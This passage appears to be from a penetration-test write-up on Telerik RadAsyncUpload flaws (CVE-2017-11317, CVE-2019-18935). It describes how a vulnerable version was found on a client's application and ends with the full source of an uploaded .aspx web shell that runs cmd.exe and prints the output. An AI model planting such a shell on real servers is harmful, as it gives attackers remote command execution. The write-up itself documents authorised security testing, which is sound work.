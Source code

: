 The vulnerability was then fixed by encrypting the _rauPostData_ parameter containing the information regarding the location of the file upload.

However, up until version v2017.2.621, Telerik RadAsyncUpload was configured to use a **hard-coded key** ([CVE-2017-11317](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11317)) to encrypt data in file upload requests. Therefore, an attacker could perform requests to the "_/Telerik.Web.Ui.WebResource.axd?type=rau_" endpoint with a custom encrypted _rauPostData_ parameter to upload arbitrary files within any directory of the web server.

Later on, researchers also found out that the _rauPostData_ was subject to **insecure deserialization** within the .NET code of Telerik since it contained the class type that was used to deserialize the object.

This vulnerability led to remote code execution ([CVE-2019-18935](https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui)) and is now publicly available as a [tool](https://github.com/noperator/CVE-2019-18935).

### Real Life Scenario

The present article will focus on how the arbitrary file upload vulnerability ([CVE-2017-11317](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11317)) was addressed within a real life scenario.

During a network penetration test for a client, the presence of Telerik UI was detected on a web application since it performed requests to the "_/Telerik.Web.UI.WebResource.axd"_ endpoint to download JavaScript files for its UI.

By analyzing some response of the application it was possible to find the string "_2014.2.724.40_" in a HTML comment, indicating the presence of Telerik UI version [2014.2.724](https://www.telerik.com/support/whats-new/aspnet-ajax/release-history/ui-for-asp-net-ajax-q2-2014-sp1-\(version-2014-2-724\)) vulnerable to the mentioned CVEs.

Also, thanks to a full path disclosure vulnerability of the application it was possible to identify the path of a folder within the web root of the application.

It was enough to upload a malicious ".aspx" file within the web root of the application and achieve an unauthenticated remote code execution:

<%@ Page Language\="VB" Debug\="true" %>  
<%@ import Namespace\="system.IO" %>  
<%@ import Namespace\="System.Diagnostics" %>  
​  
<html xmlns\="www.w3.org/1999/xhtml"\>  
<head runat\="server"\>  
    <title\>Test</title\>  
</head\>  
<body\>  
    <form id\="form1" runat\="server"\>  
    <div\>  
    <%   
    Dim myProcess As New Process()              
    Dim myProcessStartInfo As New ProcessStartInfo("c:\\windows\\system32\\cmd.exe")  
    myProcessStartInfo.UseShellExecute \= false  
    myProcessStartInfo.RedirectStandardOutput \= true  
    myProcess.StartInfo \= myProcessStartInfo  
    myProcessStartInfo.Arguments\="/c dir"  
    myProcess.Start()  
    Dim myStreamReader As StreamReader \= myProcess.StandardOutput  
    Dim myString As String \= myStreamReader.Readtoend()  
    myProcess.Close()  
    mystring\=replace(mystring,"<","&lt;")  
    mystring\=replace(mystring,">","&gt;")  
    Response.Write(vbcrlf & "<pre>" & mystring & "</pre>")  
    %>  
    </div\>  
    </form\>  
</body\>  